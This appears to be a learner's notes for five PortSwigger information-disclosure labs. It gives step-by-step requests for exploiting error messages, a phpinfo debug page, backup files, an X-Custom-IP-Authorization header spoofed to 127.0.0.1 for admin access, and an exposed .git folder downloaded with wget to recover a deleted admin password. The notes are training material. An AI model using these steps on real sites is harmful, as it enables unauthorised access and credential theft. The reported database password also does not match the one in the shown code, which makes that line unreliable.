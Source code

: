 Information disclosure vulnerabilities
https://portswigger.net/web-security/information-disclosure

# How to find and exploit information disclosure vulnerabilities
https://portswigger.net/web-security/information-disclosure/exploiting

hints:
/robots.txt
/sitemap.xml

1. <!-- Lab: Information disclosure in error messages -->
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages

To solve the lab, obtain and submit the version number of this framework. 

fiddle with product request (GET /product?productId=1 HTTP/1.1):
enter an invalid number (like: blah)
get (HTTP/1.1 500 Internal Server Error) - see apache version in the response end

# LEAKED!

2. <!-- Lab: Information disclosure on debug page -->
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-on-debug-page

To solve the lab, obtain and submit the SECRET_KEY environment variable. 

find site in Target tab and check all available pages. find hidden page (GET /cgi-bin/phpinfo.php HTTP/1.1)
send via repeater and observe response. 
search for keyword 'secret' and find the SECRET_KEY enviromental value:
u2gwtggfknnovlnuq1pp6v5bxn1zqzw5

# lEAKED!

3. <!-- Lab: Source code disclosure via backup files -->
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-via-backup-files

To solve the lab, identify and submit the database password,

GET /robots.txt HTTP/1.1
response:
Disallow: /backup

GET /backup HTTP/1.1
response:
<a href='/backup/ProductTemplate.java.bak'>ProductTemplate.java.bak

GET /backup/ProductTemplate.java.bak HTTP/1.1
response: 
ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "ucwisrtrnzmu9ss9tqd01g37cidfj3sf"
        )

postgres DB password = cauya7395fyj31fe8ueiuhrb7nj6eitb

# lEAKED!

4. <!-- Lab: Authentication bypass via information disclosure -->
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass

hint:
In the wild, the de-facto standard header X-Forwarded-For is often used

To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete Carlos's account. 

scout target:
GET /admin HTTP/1.1
response:
    Admin interface only available to local users

we know server relys on IP range to allow/disallow access to admin panel

continue to scout with HTTP TRACE method:
	https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/TRACE
	https://portswigger.net/kb/issues/00500a00_http-trace-method-is-enabled

send TRACE request:
	TRACE /index.html HTTP/1.1

observe response reflects original message and adds additional header:
	X-Custom-IP-Authorization: 87.71.215.83

now we know the header the reverse proxy adds to each messege with its coresponding IP and we can use it to manipulation:

lets replace our IP with local IP:
X-Custom-IP-Authorization: 127.0.0.1

we get access to admin panel and delete carlos

method 2 - use match and replace:

# leaked



5. <!-- Lab: Information disclosure in version control history -->
https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history

version control:
https://www.atlassian.com/git/tutorials/what-is-version-control



To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account. 

try:
GET /.git HTTP/1.1
list og links

/.git/refs/heads
1bfb24d3e8fe66ec543e11caf9f0e8155053e880

/.git/COMMIT_EDITMSG
Remove admin password from config


/.git/logs/HEAD

0000000000000000000000000000000000000000 4d9f1f11ac9ea801b859f64e31c1b7b9e86bc75e Carlos Montoya <carlos@evil-user.net> 1657494505 +0000	commit (initial): Add skeleton admin panel
4d9f1f11ac9ea801b859f64e31c1b7b9e86bc75e 74a6dfd3ded64686ec4db14e68f9c837840e6424 Carlos Montoya <carlos@evil-user.net> 1657494505 +0000	commit: Remove admin password from config

learned:
file 4d9f1f11ac9ea801b859f64e31c1b7b9e86bc75e contains password that as removed in file 74a6dfd3ded64686ec4db14e68f9c837840e6424

we need to check the difference between them to find the removed password. best way is to use local git to search thrue version:

download git-cola (https://git-cola.github.io/downloads.html) freeware python based local git manager
debian install:
sudo apt-get install git-cola

download full .git folder with wget:
wget -r https://0af5007b04699fcbc02d747300d00074.web-security-academy.net/.git/ 


open git-cola in downloaded folder and see in admin.conf:
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')

in Commit choose Undo last commit and get:
-ADMIN_PASSWORD=ejzczq6l2at31l2lyoaz
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')

go to lab log in "administrator" with password "ejzczq6l2at31l2lyoaz"
delete carlos

# DUDE!






